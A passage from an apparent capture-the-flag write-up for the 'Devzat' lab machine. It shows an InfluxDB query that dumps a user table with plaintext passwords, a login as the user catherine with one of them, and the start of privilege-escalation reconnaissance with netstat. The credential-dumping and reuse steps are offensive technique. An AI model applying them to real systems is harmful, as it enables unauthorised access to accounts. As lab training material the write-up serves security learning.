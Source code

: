```
{
    "results": [
        {
            "statement_id": 0
        }
    ]
}
[admin@127.0.0.1/devzat] $ select * from "user";
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oog*************",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}

```
Now lets login as user catherine with the password obtained .
<img src="../images/articles/devzat/patt.png" />
#### Privelege Escalation :accept: 
After conducting several investigations, I have realized that we can indeed see port 8443 open and as we had seen before in the chats that we had a program in development
```
catherine@devzat:/home$ netstat -punta | grep LISTEN
(No info could be read for "-p": geteuid()=1001 but you should be root.)
```